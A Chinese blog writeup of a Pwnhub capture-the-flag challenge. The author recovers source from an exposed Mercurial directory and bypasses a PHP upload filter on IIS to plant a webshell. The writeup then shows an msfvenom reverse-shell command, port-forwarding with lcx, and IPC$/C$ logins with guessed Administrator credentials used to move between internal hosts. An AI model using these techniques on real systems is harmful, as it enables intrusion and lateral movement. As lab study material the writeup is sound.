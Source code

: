 title: Pwnhub之深入敌后writeup
date: 2017-01-17 20:06:59
tags: ctf
---

好艰难的一趟旅程

<!--more-->

![pwnhub1](http://qn.lazysheep.cc/img/pwnhub1.png)

网站看看没啥发现, 端口扫扫也没啥发现

然后用猪猪侠的[dirfuzz](https://github.com/ring04h/dirfuzz) 扫描路径, 可以扫到有`file/.hg`路径, 然后用<https://github.com/kost/dvcs-ripper> 可以搞到源码

![pwnhub2](http://qn.lazysheep.cc/img/pwnhub2.png)

接下来就是代码审计一波

漏洞点在`uploader.php`
```
<?php
	session_start();
	 
	// Get the filename and make sure it is valid
	$filename = basename($_FILES['file']['name']);

	 
	// Get the username and make sure it is valid
	$username = $_SESSION['userName'];
	if (!preg_match('/^[\w_\-]+$/', $username) ){
		echo "Invalid username";
		header("Refresh: 2; url=files.php");
		exit;
	}
	 
	if(isset($_POST['submit'])){
		$filename =md5(uniqid(rand()));
		$filename = preg_replace("/[^\w]/i", "", $filename);
		$upfile = $_FILES['file']['name'];
		$upfile = str_replace(';',"",$upfile);
		$tempfile = $_FILES['file']['tmp_name'];
		$ext = trim(get_extension($upfile)); // null
		if(in_array($ext,array('php','php3','php5','php7','phtml'))){
			die('Warning ! File type error..');
		}
		if($ext == 'asp' or $ext == 'asa' or $ext == 'cer' or $ext == 'cdx' or $ext == 'aspx' or $ext == 'htaccess') $ext = 'file';

		$full_path = sprintf("./users_file_system/%s/%s.%s", $username, $filename,$ext);

	}


	
	if (move_uploaded_file($_FILES['file']['tmp_name'], $full_path) ){
		header("Location: files.php");
		exit;
	} else {
		header("Location: upload_failure.php");
		

		exit;
	}
 	function get_extension($file){
		return strtolower(substr($file, strrpos($file, '.')+1));
	}
?>
```

初看好像写的没问题, 但是之前随便看看站点的时候就发现了这是一个Windows server + IIS的站点

然后这个上传漏洞以前遇到过, 还写过wp

<http://old.lazysheep.cc/2015/05/19/0x24/>

然后通过Fuzz也可以bypass这个上传过滤, `aklis.php%fe`也可以成功上传php文件

![pwnhub3](http://qn.lazysheep.cc/img/pwnhub3.png)

得到webshell以后, 用msf生成了个反弹shell的exe(aklis.exe)

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=xxxx LPORT=6666 -f exe -o /tmp/reverse.exe
```

![pwnhub4](http://qn.lazysheep.cc/img/pwnhub4.png)

找个内网的ip: `172.31.5.95`, 通过xshell对该目标进行ssh连接, 用户是ubuntu

之后用的是`dlive`里的`lcx.exe`进行端口转发, 参考: 

<http://wps2015.org/drops/drops/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E4%B8%AD%E8%BD%AC%E5%8F%91%E5%B7%A5%E5%85%B7%E6%80%BB%E7%BB%93.html>

windows的命令:
```
C:\inetpub\wwwroot\file\users_file_system\dlive\> lcx.exe -slave xxx 10000 172.31.5.95 22
```

我的xxx机子的命令:
```
$ ./portmap -m 2 -p1 10000 -p2 12345
```

`portmap`是linux下的lcx, 下载地址:<http://www.vuln.cn/2791>

然后就是通过ssh进行连接了
```
$ ssh ubuntu@xxx -p12345
password: abc@elk
```

密码从提示里知道的:
![pwnhub5](http://qn.lazysheep.cc/img/pwnhub5.png)

在根目录下发现了flag, 本以为做出来了, 然后得知是假的, 简直奔溃......

该ubuntu服务器, ubuntu用户可以sudo, 有root权限, 不过不能访问外面, 想装工具也不方便...

然后在`/home/ubuntu/.bash_history`里找到了又一个内网ip: `172.31.13.133`

在`.bash_history`里也可以发现, `172.31.13.133`开了`135, 139, 445`三个端口

![pwnhub6](http://qn.lazysheep.cc/img/pwnhub6.png)

然后就进行了一系列的找相关漏洞, 把相应端口转发出来用msf测试, 未果....

然后找到[$IPC相关命令](http://www.360doc.com/content/10/0211/10/551936_15658003.shtml)

在windows机子上使用命令:

```
C:\inetpub\wwwroot\file\users_file_system\aklis>net use \\172.31.13.133\ipc$ "" /user:""
net use \\172.31.13.133\ipc$ "" /user:""
The command completed successfully.

C:\inetpub\wwwroot\file\users_file_system\aklis>net view \\172.31.13.133
net view \\172.31.13.133
System error 5 has occurred.

Access is denied.
```

但是没用, 尝试登陆.....
```
C:\inetpub\wwwroot\file\users_file_system\aklis>net use \\172.31.13.133\ipc$ "abc@ELK" /user:"Administrator"
net use \\172.31.13.133\ipc$ "abc@ELK" /user:"Administrator"
The command completed successfully.
```

登陆成功.....

密码是怎么得到的?

根据提示:
```
2017.01.15 11:50:00administrator：啊，好烦啊，需要设置那么多密码，偷懒好了，妈蛋，windows为啥还有密码策略。
```

然后查了下windows的密码策略
```
长度至少为 6 个字元
包含下列四种字元中的三种:
英文大写字元 (A 到 Z)
英文小写字元 (a 到 z)
10 进位数字 (0 到 9)
非英文字母字元 (例如: !、$、#、%)
建立或变更密码时会強制执行复杂 性需求
```

然后一猜就猜到了.....

之后是
```
C:\inetpub\wwwroot\file\users_file_system\aklis>net use d: \\172.31.13.133\c$ "abc@ELK" /user:"Administrator"
net use d: \\172.31.13.133\c$ "abc@ELK" /user:"Administrator"
The command completed successfully.
```

然后是进入`D:`, 找flag, 但是没找到, 然后得知flag就是在该机子中, 然后搜了一波windows下的搜索文件命令:
```
D:\>for /r D: %i in (*flag*) do @echo %i
for /r D: %i in (*flag*) do @echo %i
D:\Program Files (x86)\MSBuild\Microsoft\Windows Workflow Foundation\v3.5\flag.txt
D:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Recent\flag.lnk
```

好了....找到flag了
```
D:\>cd "Program Files (x86)\MSBuild\Microsoft\Windows Workflow Foundation\v3.5"
cd "Program Files (x86)\MSBuild\Microsoft\Windows Workflow Foundation\v3.5"

D:\Program Files (x86)\MSBuild\Microsoft\Windows Workflow Foundation\v3.5>dir
dir
 Volume in drive D has no label.
 Volume Serial Number is B2D4-D0F2

 Directory of D:\Program Files (x86)\MSBuild\Microsoft\Windows Workflow Foundation\v3.5

12/12/2016  02:26    <DIR>          .
12/12/2016  02:26    <DIR>          ..
12/01/2017  08:35                31 flag.txt
10/06/2009  21:14             7,169 Workflow.Targets
10/06/2009  21:14             8,680 Workflow.VisualBasic.Targets
               3 File(s)         15,880 bytes
               2 Dir(s)   2,673,094,656 bytes free

D:\Program Files (x86)\MSBuild\Microsoft\Windows Workflow Foundation\v3.5>type flag.txt
type flag.txt
pwnhub{flag:y0u f0und my h3art}
```








